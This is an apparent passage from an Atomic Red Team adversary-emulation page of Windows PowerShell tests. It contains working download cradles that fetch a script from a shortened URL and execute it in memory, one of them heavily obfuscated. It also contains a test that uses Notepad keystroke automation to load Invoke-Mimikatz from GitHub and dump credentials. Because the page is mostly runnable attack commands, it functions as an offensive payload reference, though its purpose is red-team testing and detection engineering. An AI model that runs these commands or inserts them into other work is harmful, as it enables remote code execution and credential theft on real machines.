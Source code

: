 **Supported Platforms:** Windows



#### Run it with `powershell`! 
```
(New-Object Net.WebClient).DownloadFile('http://bit.ly/L3g1tCrad1e','Default_File_Path.ps1');IEX((-Join([IO.File]::ReadAllBytes('Default_File_Path.ps1')|ForEach-Object{[Char]$_})))
(New-Object Net.WebClient).DownloadFile('http://bit.ly/L3g1tCrad1e','Default_File_Path.ps1');[ScriptBlock]::Create((-Join([IO.File]::ReadAllBytes('Default_File_Path.ps1')|ForEach-Object{[Char]$_}))).InvokeReturnAsIs()
Set-Variable HJ1 'http://bit.ly/L3g1tCrad1e';SI Variable:/0W 'Net.WebClient';Set-Item Variable:\gH 'Default_File_Path.ps1';ls _-*;Set-Variable igZ (.$ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand.PsObject.Methods|?{$_.Name-like'*Cm*t'}).Name).Invoke($ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand|GM|?{$_.Name-like'*om*e'}).Name).Invoke('*w-*ct',$TRUE,1))(Get-ChildItem Variable:0W).Value);Set-Variable J ((((Get-Variable igZ -ValueOn)|GM)|?{$_.Name-like'*w*i*le'}).Name);(Get-Variable igZ -ValueOn).((ChildItem Variable:J).Value).Invoke((Get-Item Variable:/HJ1).Value,(GV gH).Value);&( ''.IsNormalized.ToString()[13,15,48]-Join'')(-Join([Char[]](CAT -Enco 3 (GV gH).Value)))
```



<br/>
<br/>

## Atomic Test #4 - Mimikatz - Cradlecraft PsSendKeys
Run mimikatz via PsSendKeys

**Supported Platforms:** Windows



#### Run it with `powershell`!  Elevation Required (e.g. root or admin) 
```
$url='https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1';$wshell=New-Object -ComObject WScript.Shell;$reg='HKCU:\Software\Microsoft\Notepad';$app='Notepad';$props=(Get-ItemProperty $reg);[Void][System.Reflection.Assembly]::LoadWithPartialName('System.Windows.Forms');@(@('iWindowPosY',([String]([System.Windows.Forms.Screen]::AllScreens)).Split('}')[0].Split('=')[5]),@('StatusBar',0))|ForEach{SP $reg (Item Variable:_).Value[0] (Variable _).Value[1]};$curpid=$wshell.Exec($app).ProcessID;While(!($title=GPS|?{(Item Variable:_).Value.id-ieq$curpid}|ForEach{(Variable _).Value.MainWindowTitle})){Start-Sleep -Milliseconds 500};While(!$wshell.AppActivate($title)){Start-Sleep -Milliseconds 500};$wshell.SendKeys('^o');Start-Sleep -Milliseconds 500;@($url,(' '*1000),'~')|ForEach{$wshell.SendKeys((Variable _).Value)};$res=$Null;While($res.Length -lt 2){[Windows.Forms.Clipboard]::Clear();@('^a','^c')|ForEach{$wshell.SendKeys((Item Variable:_).Value)};Start-Sleep -Milliseconds 500;$res=([Windows.Forms.Clipboard]::GetText())};[Windows.Forms.Clipboard]::Clear();@('%f','x')|ForEach{$wshell.SendKeys((Variable _).Value)};If(GPS|?{(Item Variable:_).Value.id-ieq$curpid}){@('{TAB}','~')|ForEach{$wshell.SendKeys((Item Variable:_).Value)}};@('iWindowPosDY','iWindowPosDX','iWindowPosY','iWindowPosX','StatusBar')|ForEach{SP $reg (Item Variable:_).Value $props.((Variable _).Value)};IEX($res);invoke-mimikatz -dumpcr
```



<br/>
<br/>
